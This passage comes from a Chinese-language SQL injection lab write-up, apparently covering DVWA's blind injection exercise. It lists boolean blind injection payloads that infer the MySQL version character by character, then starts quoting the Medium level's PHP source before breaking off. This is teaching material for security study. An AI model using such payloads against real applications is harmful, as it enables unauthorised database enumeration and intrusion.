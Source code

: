 #### 猜测版本号

查询MySQL版本语句为

```mysql
select version();
```



首先测试版本号的长度 

​	`length()` 函数获取字符串长度

​	`substr( string, start, length)` 函数截取字符串

​	用 `substr()` 函数提取返回的版本号字符串，使用 `length()` 函数和我们的猜测值比较是否相等

```mysql
# 分别测试以下语句
1' and length(substr((select version()),1)) = 1 #
1' and length(substr((select version()),1)) = 2 #
1' and length(substr((select version()),1)) = 3 #
1' and length(substr((select version()),1)) = 4 #
1' and length(substr((select version()),1)) = 5 #
1' and length(substr((select version()),1)) = 6 #
```

直到 `1' and length(substr((select version()),1)) = 6 #`，返回查询成功，则说明版本号为六位

![image-20220823164305127](./Lab7_SQL_Injection.assets/image-20220823164305127.png)



然后测试出版本号

周所周知，一般版本号都是 x.x.x.x 之类的组成 ( 'x' 代表数字)，而 MySQL 一般为 x.x.xx

进行逐个尝试或猜测

```mysql
1' and substr((select version()),1,1) = '5' #
1' and substr((select version()),2,1) = '.' #
1' and substr((select version()),3,1) = '5' #
1' and substr((select version()),4,1) = '.' #
1' and substr((select version()),5,1) = '3' #
1' and substr((select version()),6,1) = '3' #
```

![image-20220823164749777](./Lab7_SQL_Injection.assets/image-20220823164749777.png)

最后拼接得到 MySQL 版本为 5.5.33



## Medium

### 源代码

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $id = $_POST[ 'id' ];
    $exists = false;

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            $id = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $id ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
```